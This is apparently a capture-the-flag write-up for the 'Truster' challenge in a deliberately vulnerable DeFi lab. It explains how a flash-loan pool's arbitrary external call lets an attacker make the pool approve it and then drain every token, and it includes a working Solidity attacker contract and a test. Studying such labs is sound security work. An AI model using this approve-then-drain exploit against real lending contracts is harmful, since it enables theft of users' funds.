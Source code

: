 # Truster

## analyses

This challenge involves another flash loan contract offering loans for the DVT token. The goal is that stealing the money from pool  to drain money. And attacker gets TOKENS_IN_POOL ETH.

```js
after(async function () {
        /** SUCCESS CONDITIONS */

        // Attacker has taken all tokens from the pool
        expect(
            await this.token.balanceOf(attacker.address)
        ).to.equal(TOKENS_IN_POOL);
        expect(
            await this.token.balanceOf(this.pool.address)
        ).to.equal('0');
    });
```

 The TrusterLenderPool contract accepts a custom function to call and a payload as its argument. This allows us to call any contract function on the flash loan contract’s behalf which can be exploited. 

```solidity
function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

First, we take a flash loan of `0` tokens (such that no repayment is required) and pass the token’s `approve` function as arguments with a payload that approves our attacker to withdraw all funds in a subsequent transaction. This works because the context under which `approve` is executed is the TrusterLenderPool contract because it is the one calling it.

```solidity
function attack(uint256 amount) external {
    	//msg.sender flashloan 0 ETH. Then pool approves this contract 'amount' ETH.
        pool.flashLoan(0, msg.sender, address(damnValuableToken), abi.encodeWithSignature("approve(address,uint256)", address(this), amount));
        //So this contract can transferFrom amount ETH.
        damnValuableToken.transferFrom(address(pool), msg.sender, amount);
    }
```

## solution

- TrusterAttacker

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../truster/TrusterLenderPool.sol";
import "../DamnValuableToken.sol";

contract TrusterAttacker {

    IERC20 public immutable damnValuableToken;
    TrusterLenderPool private immutable pool;

    constructor (address tokenAddress, address poolAddress) {
        damnValuableToken = IERC20(tokenAddress);
        pool = TrusterLenderPool(poolAddress);
    }

    function attack(uint256 amount) external {
    	//msg.sender flashloan 0 ETH. Then pool approves this contract 'amount' ETH.
        pool.flashLoan(0, msg.sender, address(damnValuableToken), abi.encodeWithSignature("approve(address,uint256)", address(this), amount));
        //So this contract can transferFrom amount ETH.
        damnValuableToken.transferFrom(address(pool), msg.sender, amount);
    }

    receive () external payable {}
}
```

- test

```js
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
        const AttackerContractFactory = await ethers.getContractFactory('TrusterAttacker', deployer);
        const attackerContract = await AttackerContractFactory.deploy(this.token.address, this.pool.address);

        await attackerContract.connect(attacker).attack(TOKENS_IN_POOL);

    });
```



































